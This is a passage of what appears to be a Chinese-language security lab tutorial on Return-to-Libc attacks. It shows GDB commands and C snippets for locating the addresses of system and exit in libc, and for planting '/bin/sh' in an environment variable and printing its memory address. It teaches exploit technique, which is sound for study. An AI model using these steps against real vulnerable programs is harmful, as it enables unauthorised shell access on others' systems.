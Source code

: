 挑战：为了完成 Return-to-Libc 攻击，我们需要客服如下困难：

*   如何寻找`system`的位置？
*   如何寻找字符串`/bin/sh`的位置？
*   如何将字符串`/bin/sh`的地址传递给`system`函数？

### 4.1 寻找`system`函数的位置

在多数 Unix 操作系统中， Libc 库始终加载到固定内存地址中。为了寻找 Libc 函数的地址，我们可以使用下面的 GDB 命令（假设`a.out`是任意程序）：

```c
$ gdb a.out 
(gdb) b main 
(gdb) r 
(gdb) p system 
    $1 = {<text variable, no debug info>} 0x9b4550 <system> 
(gdb) p exit 
    $2 = {<text variable, no debug info>} 0x9a9b70 <exit> 
```

从上面的 GDB 命令，我们可以发现，`system`函数的地址是`0x9b4550`，函数`exit`的返回地址是`0x9a9b70`。你系统中的实际地址可能不同。

我们也可以调用函数`dlopen`和`dlsym`来寻找 Libc 中函数的地址。

```c
#include <dlfcn.h>

#define LIBCPATH "/lib/libc.so.6" /* on Fedora */

void *libh, *sys;

if ((libh = dlopen(LIBCPATH, RTLD_NOW)) == NULL){ 
    // report error 
}

if (( sys = dlsym (libh, "system")) == NULL){ 
    // report error 
} 
printf("system @ %p\n", sys); 
```

### 4.2 寻找`/bin/sh`的地址

有几种方式来寻找这种字符串的地址：

*   使用缓冲区溢出问题，直接将地址插入栈中，之后猜测它的地址。

*   在执行漏洞程序之前，创建环境变量，值为`/bin/sh`。当 C 程序从 Shell 执行时，它就会从 Shell 继承所有环境变量。下面，我们定义了新的 Shell 变量`MYSHELL`，并使它的值为`/bin/sh`。

    ```c
    $ export MYSHELL=/bin/sh 
    ```

*   我们使用这个变量的地址作为`system`调用的参数。这个变量在内存中的位置可以使用下面的程序轻易在内存中找到：

    ```c
    void main() { 
        char* shell = getenv("MYSHELL"); 
        if (shell) 
            printf("%x\n", shell); 
    } 
    ```
